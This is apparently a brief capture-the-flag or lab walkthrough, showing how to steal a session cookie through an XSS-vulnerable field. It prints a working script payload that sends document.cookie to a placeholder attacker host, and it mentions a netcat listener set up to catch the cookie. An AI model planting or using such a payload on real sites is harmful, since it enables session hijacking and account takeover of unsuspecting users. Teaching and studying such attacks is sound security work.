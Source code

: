 **Objective**: Steal the session cookie using XSS.

We have to create a *JS* payload that send to us the session cookie.

Once we know that the fild is vulnerable to *XSS injection* just use that:

```bash
<script>new Image().src='http://ip:port/?v_cookie=' + encodeURI(document.cookie);</script>
```
![Alt text](ch4_page_images/image-30.png)

Before we send that, we have to use netcat to listen in the specifyed port.

![Alt text](ch4_page_images/image-31.png)

Now send the malicious code.

![Alt text](ch4_page_images/image-32.png)
